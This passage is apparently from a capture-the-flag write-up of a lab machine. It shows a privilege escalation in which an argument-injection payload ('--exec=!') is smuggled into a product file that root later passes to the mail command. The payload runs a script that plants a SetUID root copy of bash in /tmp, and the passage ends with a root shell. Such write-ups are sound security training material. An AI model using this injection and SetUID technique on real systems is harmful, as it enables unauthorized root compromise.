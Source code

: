 [![image-20221004143500108](https://0xdfimages.gitlab.io/img/image-20221004143500108.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20221004143500108.png)

Immediately in PSpy:

```

2022/10/05 05:34:46 CMD: UID=0    PID=3757   | mail -s Leave Request: 0xdf 0xdf christine 

```

#### Inject into mail

The [GTFOBins page for mail](https://gtfobins.github.io/gtfobins/mail/) shows that I just need the `--exec=![full path]` to run something.

I’ll write a Bash script to create a SetUID `bash` binary (in `/tmp`, as `/dev/shm` is mounted `nosuid`):

```

bean@awkward:/var/www/store/product-details$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchmod 4777 /tmp/0xdf' > /dev/shm/0xdf.sh
bean@awkward:/var/www/store/product-details$ chmod +x /dev/shm/0xdf.sh
bean@awkward:/var/www/store/product-details$ cat /dev/shm/0xdf.sh
#!/bin/bash

cp /bin/bash /tmp/0xdf
chmod 4777 /tmp/0xdf

```

Now I’ll update the product:

```

bean@awkward:/var/www/store/product-details$ head -1 1.txt > 223.txt
bean@awkward:/var/www/store/product-details$ echo '0xdf --exec="!/dev/shm/0xdf.sh"' >> 223.txt 

```

On adding it to my cart, now `0xdf` exists and is SetUID for root:

```

bean@awkward:/var/www/store/cart$ ls -l /tmp/0xdf 
-rwsrwxrwx 1 root root 1396520 Oct  5 05:42 /tmp/0xdf

```

It works:

```

bean@awkward:/var/www/store/cart$ /tmp/0xdf -p
0xdf-5.1# cat /root/root.txt
59fad68a************************

```
